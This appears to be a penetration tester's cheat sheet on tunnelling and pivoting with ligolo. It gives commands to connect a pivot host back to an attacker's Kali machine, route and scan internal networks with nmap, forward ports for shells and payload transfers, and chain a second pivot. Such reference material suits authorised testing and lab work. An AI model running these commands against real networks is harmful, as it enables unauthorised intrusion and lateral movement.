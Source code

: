 # Tunnelling
*   Setup
    *   Kali        → `ligstart()`
    *   Pivot     → `ligolo-agent -connect [KALI_IP]:11601 -ignore-cert`
    *   Kali        → `sudo ip route add [ROUTE] dev ligolo`
    *   Ligolo        → `session` -> Select Session → `start` 
*   Local Forwarding
    *   Route    → `240.0.0.1`
    *   Access   → `240.0.0.1:[PORT]` (Universal IP - Change Session to access other pivots)
*   Dynamic Forwarding
    *   Route → `[INTRANET_CIDR]`
        *   Linux        → `ip route`
        *   Windows → `route -n`
        *   General Purpose -> `192.168.0.0/16`, `172.16.0.0/12`, `10.0.0.0/8`
    *   Network Scanning
        *   `sudo nmap -PE -sn  [INTRANET_CIDR]`
        *   `sudo nmap -PE -sCV [INTRANET_IP]`
    *   Shells / Transfers
        *   Kali → `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:8000 --tcp` 
        *   Kali → `listen() 8000` / `httpserv() 8000`
        *   Requests/Payloads → `[PIVOT_INTRANET_IP]:30000`
    *   Double Pivoting
        *   Kali                   → Select Pivot Session + `listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp`
        *   Second Pivot → `ligolo-agent -connect [FIRST_PIVOT_INTRANET_IP]:11601 -ignore-cert`
        *   Kali                   → Select Session + `start` + `sudo ip route add [SECOND_INTRANET_CIDR] dev ligolo`
